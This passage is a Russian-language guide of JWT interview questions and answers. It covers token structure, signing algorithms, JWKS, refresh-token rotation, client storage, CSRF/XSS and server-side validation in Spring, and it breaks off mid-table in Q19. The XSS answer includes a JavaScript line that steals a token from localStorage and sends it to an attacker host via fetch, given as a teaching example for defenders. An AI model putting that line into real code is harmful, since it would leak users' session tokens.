









# Вопросы на собеседовании: `JWT`

`JWT` (JSON Web Token) — стандарт (RFC 7519) для безопасной передачи данных между сторонами в виде JSON-объекта, подписанного (и опционально зашифрованного). Широко применяется в REST API, микросервисах и OAuth2/OpenID Connect. На интервью тема JWT часто проверяет понимание не только механики токенов, но и security-аспектов, trade-offs и паттернов хранения.

## Полезные ссылки

### Официальная документация

- [RFC 7519 — JSON Web Token](https://datatracker.ietf.org/doc/html/rfc7519) — спецификация JWT
- [RFC 7515 — JSON Web Signature (JWS)](https://datatracker.ietf.org/doc/html/rfc7515) — спецификация JWS
- [RFC 7516 — JSON Web Encryption (JWE)](https://datatracker.ietf.org/doc/html/rfc7516) — спецификация JWE
- [RFC 7517 — JSON Web Key (JWK)](https://datatracker.ietf.org/doc/html/rfc7517) — спецификация JWK
- [Baeldung: JWT with JJWT](https://www.baeldung.com/java-json-web-tokens-jjwt) — практическое руководство по JWT в Java
- [Baeldung: Spring Security OAuth2 Resource Server](https://www.baeldung.com/spring-security-oauth-resource-server) — настройка Resource Server
- [Baeldung: JWS + JWK в Spring Security OAuth2](https://www.baeldung.com/spring-security-oauth2-jws-jwk) — JWS и JWKS
- [PortSwigger: JWT attacks](https://portswigger.net/web-security/jwt) — атаки на JWT
- [OWASP: Testing JSON Web Tokens](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/10-Testing_JSON_Web_Tokens) — тестирование JWT безопасности

## Содержание

- [Полезные ссылки](#полезные-ссылки)
- [See also](#see-also)

**Структура и основы JWT**
- [Q1. (!) Что такое JWT и из каких частей он состоит?](#q1-что-такое-jwt-и-из-каких-частей-он-состоит)
- [Q2. Как кодируется каждая часть JWT?](#q2-как-кодируется-каждая-часть-jwt)
- [Q3. (!) Что такое claims в JWT? Какие типы существуют?](#q3-что-такое-claims-в-jwt-какие-типы-существуют)
- [Q4. Какие registered claims определены в RFC 7519?](#q4-какие-registered-claims-определены-в-rfc-7519)
- [Q5. Является ли payload JWT зашифрованным?](#q5-является-ли-payload-jwt-зашифрованным)

**Алгоритмы подписи**
- [Q6. (!) Какие алгоритмы подписи поддерживает JWT? Когда что использовать?](#q6-какие-алгоритмы-подписи-поддерживает-jwt-когда-что-использовать)
- [Q7. В чём разница между HS256 и RS256?](#q7-в-чём-разница-между-hs256-и-rs256)
- [Q8. Что такое ES256 и когда его предпочесть?](#q8-что-такое-es256-и-когда-его-предпочесть)

**JWS, JWE, JWKS**
- [Q9. (!) В чём разница между JWT, JWS и JWE?](#q9-в-чём-разница-между-jwt-jws-и-jwe)
- [Q10. Что такое JWKS и для чего используется?](#q10-что-такое-jwks-и-для-чего-используется)
- [Q11. Как клиент проверяет подпись с помощью JWKS?](#q11-как-клиент-проверяет-подпись-с-помощью-jwks)

**Access Token и Refresh Token**
- [Q12. (!) В чём разница между Access Token и Refresh Token?](#q12-в-чём-разница-между-access-token-и-refresh-token)
- [Q13. (!) Что такое Refresh Token Rotation?](#q13-что-такое-refresh-token-rotation)
- [Q14. Где хранить Access Token и Refresh Token на клиенте?](#q14-где-хранить-access-token-и-refresh-token-на-клиенте)

**Хранение и безопасность на клиенте**
- [Q15. (!) localStorage vs httpOnly cookie — где хранить JWT?](#q15-localstorage-vs-httponly-cookie--где-хранить-jwt)
- [Q16. Как JWT связан с CSRF-атаками?](#q16-как-jwt-связан-с-csrf-атаками)
- [Q17. Как JWT связан с XSS-атаками?](#q17-как-jwt-связан-с-xss-атаками)

**Валидация и отзыв токенов**
- [Q18. (!) Как правильно валидировать JWT на сервере?](#q18-как-правильно-валидировать-jwt-на-сервере)
- [Q19. (!) Проблема отзыва JWT — как её решать?](#q19-проблема-отзыва-jwt--как-её-решать)
- [Q20. Что такое Token Introspection?](#q20-что-такое-token-introspection)
- [Q21. Как использовать claim `jti` для blacklisting?](#q21-как-использовать-claim-jti-для-blacklisting)

**JWT vs Session-based аутентификация**
- [Q22. (!) JWT vs Session-based аутентификация — сравнение и trade-offs](#q22-jwt-vs-session-based-аутентификация--сравнение-и-trade-offs)
- [Q23. Является ли JWT stateless?](#q23-является-ли-jwt-stateless)

**Уязвимости**
- [Q24. (!) Атака «алгоритм none» — в чём суть и как защититься?](#q24-атака-алгоритм-none--в-чём-суть-и-как-защититься)
- [Q25. (!) Что такое Algorithm Confusion Attack (RS256 → HS256)?](#q25-что-такое-algorithm-confusion-attack-rs256--hs256)
- [Q26. Какие ещё уязвимости JWT существуют?](#q26-какие-ещё-уязвимости-jwt-существуют)
- [Q27. Что такое JWT Header Injection?](#q27-что-такое-jwt-header-injection)

**Spring Security интеграция**
- [Q28. (!) Как настроить Spring Security Resource Server с JWT?](#q28-как-настроить-spring-security-resource-server-с-jwt)
- [Q29. Что такое JwtDecoder и как его настроить?](#q29-что-такое-jwtdecoder-и-как-его-настроить)
- [Q30. Как маппировать authorities из JWT claims в Spring Security?](#q30-как-маппировать-authorities-из-jwt-claims-в-spring-security)
- [Q31. Как генерировать JWT в Spring Boot приложении?](#q31-как-генерировать-jwt-в-spring-boot-приложении)
- [Q32. Как тестировать JWT-защищённые эндпоинты в Spring?](#q32-как-тестировать-jwt-защищённые-эндпоинты-в-spring)

**OpenID Connect и OAuth2**
- [Q33. (!) Какую роль играет JWT в OpenID Connect?](#q33-какую-роль-играет-jwt-в-openid-connect)
- [Q34. Что такое ID Token и чем он отличается от Access Token?](#q34-что-такое-id-token-и-чем-он-отличается-от-access-token)

**Best Practices**
- [Q35. (!) Какие best practices при работе с JWT?](#q35-какие-best-practices-при-работе-с-jwt)
- [Q36. Какой должен быть срок жизни Access Token и Refresh Token?](#q36-какой-должен-быть-срок-жизни-access-token-и-refresh-token)
- [Q37. Стоит ли хранить чувствительные данные в JWT payload?](#q37-стоит-ли-хранить-чувствительные-данные-в-jwt-payload)

**Продвинутые темы**
- [Q38. Как JWT используется в OAuth 2.0 и OIDC?](#q38-как-jwt-используется-в-oauth-20-и-oidc)
- [Q39. JWT rotation — скользящий срок действия и silent refresh](#q39-jwt-rotation--скользящий-срок-действия-и-silent-refresh)
- [Q40. Хранение JWT в мобильных приложениях — безопасные практики](#q40-хранение-jwt-в-мобильных-приложениях--безопасные-практики)
- [Q41. Что такое Nested JWT (JWE + JWS) и когда применять?](#q41-что-такое-nested-jwt-jwe--jws-и-когда-применять)
- [Q42. JWT vs Paseto — почему Paseto создан как альтернатива?](#q42-jwt-vs-paseto--почему-paseto-создан-как-альтернатива)
- [Q43. JWKS (JSON Web Key Set) — как работает и Spring Security JwkSetUri](#q43-jwks-json-web-key-set--как-работает-и-spring-security-jwkseturi)

---

## Q1. (!) Что такое JWT и из каких частей он состоит?

**JWT** (JSON Web Token, RFC 7519) — компактный, URL-safe формат для передачи заявлений (`claims`) между двумя сторонами. Данные подписываются, что позволяет верифицировать целостность и подлинность, не обращаясь к базе данных.

JWT состоит из **трёх частей**, разделённых точкой:

```
header.payload.signature
```

**Пример JWT:**
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.
eyJzdWIiOiJ1c2VyMTIzIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNzAwMDAwMDAwLCJleHAiOjE3MDAwMDM2MDB9.
SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c
```

| Часть | Что содержит |
|-------|-------------|
| **Header** | Тип токена (`JWT`) и алгоритм подписи (`alg`) |
| **Payload** | Claims — данные о субъекте и метаданные |
| **Signature** | Криптографическая подпись header + payload |



**Ключевое:** JWT — это **не шифрование**, а **подпись**. Payload виден любому, кто декодирует Base64.

---

## Q2. Как кодируется каждая часть JWT?

Каждая часть кодируется с помощью **Base64URL** (модификация Base64: символы `+` → `-`, `/` → `_`, без `=` padding). Это делает JWT безопасным для URL и HTTP-заголовков.

```json
// Header (decoded)
{
  "alg": "HS256",
  "typ": "JWT"
}

// Payload (decoded)
{
  "sub": "user123",
  "name": "John Doe",
  "iat": 1700000000,
  "exp": 1700003600
}
```

**Signature** формируется так:
```
HMACSHA256(
  base64UrlEncode(header) + "." + base64UrlEncode(payload),
  secret
)
```

Для RS256 вместо HMAC используется RSA-подпись с приватным ключом:
```
RSA_SIGN_SHA256(
  base64UrlEncode(header) + "." + base64UrlEncode(payload),
  privateKey
)
```

---

## Q3. (!) Что такое claims в JWT? Какие типы существуют?

**Claims** — это утверждения (пары ключ-значение) в payload JWT, содержащие информацию о субъекте и метаданные токена.

RFC 7519 определяет три типа claims:

| Тип | Описание | Примеры |
|-----|----------|---------|
| **Registered** | Стандартизированные, зарезервированные IANA | `iss`, `sub`, `exp`, `iat`, `jti`, `aud`, `nbf` |
| **Public** | Публично зарегистрированные, избегают коллизий | `name`, `email`, `picture` (OpenID) |
| **Private** | Кастомные, договорные между сторонами | `role`, `tenantId`, `permissions` |

```json
{
  "iss": "https://auth.example.com",
  "sub": "user123",
  "aud": "api.example.com",
  "exp": 1700003600,
  "iat": 1700000000,
  "jti": "unique-token-id-abc123",
  "email": "user@example.com",
  "roles": ["ROLE_USER", "ROLE_ADMIN"]
}
```

**Совет интервьюеру:** registered claims — рекомендованы, но не обязательны. Их короткие имена (`sub`, `exp`) обусловлены задачей компактности.

---

## Q4. Какие registered claims определены в RFC 7519?

| Claim | Полное название | Описание |
|-------|----------------|----------|
| `iss` | Issuer | Кто выдал токен (URL или имя сервиса) |
| `sub` | Subject | Субъект токена (обычно userId) |
| `aud` | Audience | Для кого предназначен токен (Resource Server) |
| `exp` | Expiration Time | Unix timestamp истечения срока |
| `nbf` | Not Before | Токен невалиден раньше этого времени |
| `iat` | Issued At | Время выдачи токена |
| `jti` | JWT ID | Уникальный идентификатор токена |

**Важно при валидации:** сервер обязан проверять `exp` (обязательно), `iss` (если известен), `aud` (если предназначен конкретному ресурсу). Игнорирование `aud` — частая уязвимость.

---

## Q5. Является ли payload JWT зашифрованным?

**Нет.** Payload в стандартном JWT (`JWS`) только **подписан**, но не зашифрован. Он кодируется в Base64URL, которое легко декодировать:

```bash
# Декодирование payload (вторая часть JWT)
echo "eyJzdWIiOiJ1c2VyMTIzIn0" | base64 -d
# {"sub":"user123"}
```

Это означает:
- Любой, у кого есть токен, видит все claims
- **Нельзя хранить пароли, секреты, PII** в payload без дополнительного шифрования
- Подпись гарантирует **целостность**, а не конфиденциальность

Для шифрования payload нужно использовать **JWE** (JSON Web Encryption), где payload зашифрован симметрично или асимметрично.

---

## Q6. (!) Какие алгоритмы подписи поддерживает JWT? Когда что использовать?

JWT поддерживает три семейства алгоритмов:

| Алгоритм | Тип | Ключ | Когда использовать |
|----------|-----|------|---------------------|
| **HS256/HS384/HS512** | HMAC (симметричный) | Один общий секрет | Монолит, микросервисы с доверенной сетью |
| **RS256/RS384/RS512** | RSA (асимметричный) | Приватный/публичный ключ | Authorization Server + Resource Server |
| **ES256/ES384/ES512** | ECDSA (асимметричный) | EC приватный/публичный ключ | Когда нужны малые ключи и высокая скорость |
| **PS256/PS384/PS512** | RSASSA-PSS | Приватный/публичный ключ | Более безопасная замена RS256 |
| **EdDSA** | Edwards-curve | Ed25519/Ed448 | Современные системы |

**Правило выбора:**
- **HS256** — если `iss` и Resource Server одно приложение или разделяют секрет через безопасный канал
- **RS256** — стандарт для OAuth2/OIDC: Authorization Server подписывает приватным ключом, Resource Server верифицирует публичным
- **ES256** — предпочтителен при ограниченных ресурсах (IoT) или необходимости малого размера ключей

---

## Q7. В чём разница между HS256 и RS256?



| Критерий | HS256 | RS256 |
|----------|-------|-------|
| **Тип** | Симметричный HMAC | Асимметричный RSA |
| **Ключ** | Один секрет у всех сторон | Приватный (у AS) + публичный (у RS) |
| **Масштабируемость** | Плохая — секрет надо распространять | Хорошая — публичный ключ открытый |
| **Риск компрометации** | Высокий — любой с секретом может выдавать токены | Низкий — приватный ключ только у AS |
| **Производительность** | Быстрее | Медленнее (RSA вычислительно дорог) |
| **Применение** | Монолит, закрытые системы | OAuth2/OIDC, распределённые системы |

**Вывод:** в микросервисной архитектуре с несколькими Resource Server предпочтительнее **RS256** — каждый сервис получает публичный ключ через `/.well-known/jwks.json` и верифицирует независимо.

---

## Q8. Что такое ES256 и когда его предпочесть?

**ES256** — алгоритм на основе ECDSA (Elliptic Curve Digital Signature Algorithm) с кривой P-256.

Преимущества перед RS256:
- **Меньший размер ключа:** 256-битный EC ключ эквивалентен 3072-битному RSA по безопасности
- **Быстрее** при генерации подписи (медленнее при верификации)
- **Меньший размер подписи** в токене

Применение — высоконагруженные системы, мобильные приложения, IoT. OpenID Connect рекомендует ES256 или RS256.

```java
// Генерация EC ключевой пары (Java)
KeyPairGenerator keyGen = KeyPairGenerator.getInstance("EC");
keyGen.initialize(new ECGenParameterSpec("secp256r1"));
KeyPair keyPair = keyGen.generateKeyPair();
```

---

## Q9. (!) В чём разница между JWT, JWS и JWE?

Эти термины часто путают. Все три — часть семейства **JOSE** (JSON Object Signing and Encryption):

| Стандарт | Расшифровка | Суть |
|----------|-------------|------|
| **JWT** | JSON Web Token | Формат токена (RFC 7519) — может быть JWS или JWE |
| **JWS** | JSON Web Signature | JWT с **подписью** payload (RFC 7515) — целостность, но не конфиденциальность |
| **JWE** | JSON Web Encryption | JWT с **зашифрованным** payload (RFC 7516) — конфиденциальность + целостность |



**На практике:** когда говорят «JWT», почти всегда имеют в виду **JWS** — подписанный токен. JWE используется реже — только если нужно скрыть сам payload от третьих сторон (например, от мобильного клиента).

---

## Q10. Что такое JWKS и для чего используется?

**JWKS** (JSON Web Key Set, RFC 7517) — стандартный формат для публикации набора публичных ключей в виде JSON. Authorization Server публикует JWKS endpoint:

```
GET /.well-known/jwks.json
```

Пример ответа:
```json
{
  "keys": [
    {
      "kty": "RSA",
      "use": "sig",
      "kid": "key-id-2024",
      "n": "0vx7agoebGcQSuuPiLJXZpt...",
      "e": "AQAB",
      "alg": "RS256"
    }
  ]
}
```

**Поля ключа:**
- `kty` — тип ключа (RSA, EC, oct)
- `use` — назначение (`sig` — подпись, `enc` — шифрование)
- `kid` — Key ID (совпадает с `kid` в JWT header)
- `n`, `e` — компоненты RSA публичного ключа

Resource Server кэширует JWKS и периодически обновляет при ротации ключей.

---

## Q11. Как клиент проверяет подпись с помощью JWKS?

Процесс валидации JWT с использованием JWKS:



В Spring Security это автоматизировано через `NimbusJwtDecoder`:

```java
@Bean
public JwtDecoder jwtDecoder() {
    return NimbusJwtDecoder
        .withJwkSetUri("https://auth.example.com/.well-known/jwks.json")
        .build();
}
```

---

## Q12. (!) В чём разница между Access Token и Refresh Token?

| Критерий | Access Token | Refresh Token |
|----------|-------------|---------------|
| **Назначение** | Доступ к защищённым ресурсам | Получение нового Access Token |
| **Время жизни** | Короткое (5–60 минут) | Длинное (дни, недели) |
| **Хранение** | Memory / короткоживущая cookie | httpOnly Secure cookie / secure storage |
| **Где используется** | В каждом запросе к API (Authorization header) | Только при обращении к Token Endpoint |
| **Тип** | Обычно JWT (stateless) | Обычно opaque (непрозрачный) |
| **Отзыв** | Проблематичен (stateless) | Хранится в БД, легко отзывается |



---

## Q13. (!) Что такое Refresh Token Rotation?

**Refresh Token Rotation** — механизм безопасности, при котором каждый раз при использовании Refresh Token выдаётся **новый** Refresh Token, а старый аннулируется.

**Зачем:** если злоумышленник похитил Refresh Token, то при его использовании легитимный клиент получит ошибку (токен уже использован), и система может автоматически отозвать всю сессию.



**Реализация в Spring Authorization Server:**
```java
// application.yml
spring:
  security:
    oauth2:
      authorizationserver:
        token:
          refresh-token-time-to-live: "7d"
          reuse-refresh-tokens: false  # включает Rotation
```

---

## Q14. Где хранить Access Token и Refresh Token на клиенте?

**Access Token:**
- **In-memory** (JS переменная, React state) — защищён от XSS, теряется при перезагрузке
- **sessionStorage** — приемлемо для AT, уязвимо к XSS в той же вкладке

**Refresh Token:**
- **httpOnly Secure SameSite=Strict cookie** — лучший вариант: JS не имеет доступа (защита от XSS), SameSite защищает от CSRF
- Никогда в localStorage — уязвимо к XSS

**Рекомендуемая стратегия:**
```
Access Token → in-memory (короткоживущий)
Refresh Token → httpOnly Secure cookie
```

При перезагрузке страницы клиент отправляет cookie с RT → получает новый AT в памяти.

---

## Q15. (!) localStorage vs httpOnly cookie — где хранить JWT?

| Критерий | localStorage | httpOnly cookie |
|----------|-------------|----------------|
| **XSS уязвимость** | Высокая — JS имеет полный доступ | Низкая — JS не может прочитать |
| **CSRF уязвимость** | Нет — не отправляется автоматически | Есть — браузер добавляет автоматически |
| **Защита от CSRF** | Не нужна | Нужна (`SameSite`, CSRF-token) |
| **Доступность** | Все вкладки, сессии | Только через HTTP |
| **Persistence** | До очистки браузера | Контролируется `Max-Age`/`Expires` |

**Вывод:**
- `localStorage` — **не рекомендуется** для чувствительных токенов (любой XSS = кража токена)
- `httpOnly Secure SameSite=Strict cookie` — **предпочтительнее** для Refresh Token
- Access Token — **in-memory** + автообновление через RT

**Cookie-атрибуты для JWT:**
```
Set-Cookie: refresh_token=<RT>; HttpOnly; Secure; SameSite=Strict; Path=/token/refresh; Max-Age=2592000
```

---

## Q16. Как JWT связан с CSRF-атаками?

**CSRF** (Cross-Site Request Forgery) — атака, при которой вредоносный сайт заставляет браузер жертвы отправить запрос к целевому сайту с автоматически прикреплёнными cookie.

**JWT в Authorization header** → **не уязвим** к CSRF:
- Браузер не добавляет кастомные заголовки автоматически
- Только cookie автоматически добавляются к кросс-сайтовым запросам

**JWT в cookie** → **уязвим** к CSRF без дополнительной защиты:

Защита при использовании cookie:
1. **`SameSite=Strict`** — cookie не отправляются в кросс-сайтовых запросах (лучший вариант)
2. **`SameSite=Lax`** — не отправляются в POST, PUT, DELETE с других сайтов
3. **Double Submit Cookie** — дополнительный CSRF-token в cookie и заголовке
4. **Synchronizer Token Pattern** — классическая защита

---

## Q17. Как JWT связан с XSS-атаками?

**XSS** (Cross-Site Scripting) — инъекция вредоносного JavaScript на страницу.

**Если JWT хранится в localStorage:**
```javascript
// Злоумышленник через XSS может:
const token = localStorage.getItem('jwt_token');
fetch('https://attacker.com/steal?token=' + token);
```

**Если JWT хранится в httpOnly cookie:**
```javascript
// XSS не может прочитать:
document.cookie; // не покажет httpOnly cookies
```

**Митигация XSS:**
- Правильный `Content-Security-Policy` (CSP)
- Escaping/sanitization пользовательского ввода
- `httpOnly` cookie для токенов
- Минимальный срок жизни Access Token

---

## Q18. (!) Как правильно валидировать JWT на сервере?

Полный чеклист валидации JWT:

```java
// Spring Security выполняет это автоматически через NimbusJwtDecoder
// Для ручной валидации с JJWT:
Jwts.parserBuilder()
    .setSigningKey(publicKey)
    .requireIssuer("https://auth.example.com")
    .requireAudience("my-api")
    .build()
    .parseClaimsJws(token);
```

**Обязательные проверки:**
1. **Подпись** — верифицировать с известным ключом (не из самого токена!)
2. **`exp`** — токен не истёк
3. **`nbf`** — токен уже активен (если присутствует)
4. **`iss`** — Issuer совпадает с ожидаемым
5. **`aud`** — Audience включает данный Resource Server
6. **Алгоритм** — соответствует ожидаемому (whitelist алгоритмов!)

**Критическая ошибка:** доверять `alg` из заголовка токена без whitelist-а.

---

## Q19. (!) Проблема отзыва JWT — как её решать?

`JWT` по природе **stateless** — сервер не хранит состояние токенов. Это делает немедленный отзыв сложным.

**Проблема:** если пользователь разлогинился или его права изменились — старый JWT продолжает работать до истечения `exp`.

**Решения:**

| Подход | Описание | Trade-off |
|--------|----------|-----------|
